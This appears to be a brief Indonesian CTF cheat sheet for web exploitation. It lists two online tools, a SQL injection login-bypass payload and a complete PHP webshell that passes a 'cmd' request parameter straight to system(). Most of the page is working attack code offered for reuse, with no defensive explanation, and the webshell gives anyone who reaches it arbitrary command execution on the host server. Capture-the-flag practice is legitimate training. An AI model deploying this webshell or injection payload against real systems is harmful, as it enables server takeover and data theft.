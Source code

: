 ```yaml
---
title: Semua Tentang CTF - Kategori Web Exploitation
published: true
---
```

# Tools
Kategori Web Exploitation:
1. JWT (JSON Web Token) - [](https://token.dev/)
2. Deobfuscate Kode JS - [](https://deobfuscate.io/)

# Kode
SQL Injection
```sql
' OR 1=1 OR '1'='1
```

PHP Webshell (Execute Linux Command) dari [joswr1ght](gist.github.com/joswr1ght).

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
